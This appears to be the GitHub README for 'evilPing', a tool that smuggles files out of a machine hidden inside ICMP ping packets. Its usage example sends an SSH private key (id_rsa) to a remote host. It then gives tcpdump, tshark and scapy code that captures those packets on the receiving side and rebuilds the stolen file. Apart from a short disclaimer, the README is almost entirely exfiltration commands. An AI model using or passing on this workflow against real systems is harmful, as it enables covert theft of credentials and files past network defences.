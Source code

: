 # evilPing
Sending file through ICMP packet using PING

This tools will convert the data into hexadecimal and send through ICMP packet in each block. if the connection not stable or any packet failed to send, the script will retry sending the failed data first before go to the next block data

### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```
![Running](img/test.png)

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```
![Listen](img/listen.png)

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y ip.src==192.168.56.1 -Y icmp.type==8 | tail -n +2 | cut -c 17-48 | xxd -r -p
```
![Result](img/result.png)

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet[1:]:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only. usage of evilPing for attacking targets without prior mutual consent is illegal and developers assume no liability and are not responsible for any misuse or damage caused by this program.
